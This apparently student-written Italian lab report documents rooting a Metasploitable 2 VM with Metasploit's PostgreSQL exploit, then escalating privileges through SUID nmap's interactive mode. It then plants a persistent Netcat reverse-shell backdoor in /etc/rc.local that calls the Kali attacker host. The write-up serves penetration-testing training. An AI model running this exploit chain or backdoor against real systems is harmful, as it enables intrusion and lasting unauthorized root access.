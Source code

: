 # Consegna S7/L3: Ottenere una Shell Root con Exploit PostgreSQL

## 📝 **Descrizione del progetto**
In questa esercitazione abbiamo utilizzato l'exploit **PostgreSQL Payload** di Metasploit per ottenere una shell con privilegi limitati su un sistema vulnerabile (**Metasploitable 2**). Successivamente, abbiamo sfruttato il binario `nmap` con **bit SUID** attivo per eseguire manualmente un'escalation di privilegi ed ottenere **root** sul sistema.

L'obiettivo è stato raggiunto attraverso un approccio sistematico e ben documentato che include:
- Configurazione dell'exploit PostgreSQL per ottenere una sessione iniziale Meterpreter.
- Verifica della presenza di binari vulnerabili con il bit SUID attivo.
- Escalation manuale a root sfruttando `nmap` in modalità interattiva.
- Installazione di una **backdoor persistente** con Netcat compatibile con sistemi a **32 bit**, forzando l'interfaccia corretta per comunicare con Kali Linux.

---

## 📋 **Passaggi seguiti**

### **1. Configurazione iniziale**
#### Verifica della connessione con Metasploitable
- Identificazione dell'IP della macchina target (**Metasploitable**):
  ```bash
  nmap -sn 192.168.50.0/24
  ```
- IP identificati:
  - **Kali Linux (attaccante):** 192.168.50.2
  - **Metasploitable (target):** 192.168.50.3

### **2. Configurazione dell'exploit PostgreSQL**
Per ottenere una sessione Meterpreter:
```bash
msfconsole
use exploit/linux/postgres/postgres_payload
set RHOSTS 192.168.50.3
set LHOST 192.168.50.2
exploit
```
- **Risultato:** Abbiamo ottenuto una sessione Meterpreter come utente **postgres**.

### **3. Verifica dei privilegi e binari vulnerabili**
Dalla sessione Meterpreter, abbiamo verificato l'utente corrente e cercato binari con **bit SUID** attivo:
```bash
getuid
shell
find / -perm -4000 -type f 2>/dev/null | grep nmap
```
- **Risultato:** Trovato `nmap` con bit SUID attivo su `/usr/bin/nmap`.

### **4. Escalation di privilegi a root**
Abbiamo sfruttato manualmente `nmap` per ottenere una shell root:
1. Accedere alla modalità interattiva di nmap:
   ```bash
   /usr/bin/nmap --interactive
   ```
2. Eseguire una shell come root:
   ```bash
   !sh
   ```
3. Verifica dei privilegi:
   ```bash
   whoami
   ```
- **Risultato:** Utente elevato a **root**.

![ROOT!](./MeterpreterOK.png)

### **5. Installazione della backdoor persistente con Netcat**
Per ottenere una connessione persistente root su ogni avvio del sistema target, configurando correttamente la connessione verso Kali Linux:
1. Creazione dello script di backdoor:
   ```bash
   echo '#!/bin/bash' > /etc/backdoor_nc.sh
   echo 'nc -e /bin/bash -s 192.168.50.3 192.168.50.2 4444' >> /etc/backdoor_nc.sh
   chmod +x /etc/backdoor_nc.sh
   ```
   - **Spiegazione:**
     - `-e /bin/bash`: Esegue la shell.
     - `-s 192.168.50.3`: Forza l'interfaccia IP della macchina target (Metasploitable).
     - `192.168.50.2 4444`: Invio della connessione verso Kali Linux.

2. Aggiunta della backdoor all'avvio del sistema tramite `rc.local`:
   ```bash
   echo '/etc/backdoor_nc.sh &' >> /etc/rc.local
   chmod +x /etc/rc.local
   ```

3. Verifica del contenuto di `rc.local`:
   ```bash
   cat /etc/rc.local
   ```
- **Risultato:** La backdoor verrà eseguita automaticamente ad ogni avvio del sistema, aprendo una connessione Netcat verso Kali Linux sulla porta `4444` utilizzando l'interfaccia IP corretta.

---

## 🎯 **Risultati ottenuti**
- **Accesso iniziale:** Sessione Meterpreter come utente `postgres`.
- **Escalation di privilegi:** Eseguita con successo sfruttando `nmap` con bit SUID.
- **Privilegi finali:** Shell root sul sistema target.
- **Backdoor persistente:** Configurata tramite Netcat per una connessione automatica ad ogni avvio verso l'IP di Kali Linux utilizzando `eth1`.

---

## 🛠️ **Strumenti utilizzati**
- **Metasploit Framework:** Per lanciare l'exploit PostgreSQL e ottenere l'accesso iniziale.
- **Nmap (SUID):** Sfruttato manualmente per ottenere root.
- **Linux Shell:** Per l'esecuzione di comandi manuali post-escalation.
- **Netcat:** Utilizzato per creare una backdoor persistente configurata per l'interfaccia corretta.

---

## 📌 **Considerazioni finali**
Questa esercitazione ha dimostrato l'importanza di combinare strumenti automatizzati (come Metasploit) con tecniche manuali per sfruttare vulnerabilità note. L'escalation di privilegi tramite `nmap` evidenzia come l'errata configurazione dei permessi possa essere sfruttata per ottenere il controllo completo di un sistema target.

La backdoor persistente con Netcat consente di mantenere l'accesso root in modo stabile e automatico, semplificando la fase post-exploitation e risolvendo problematiche legate alle interfacce multiple.

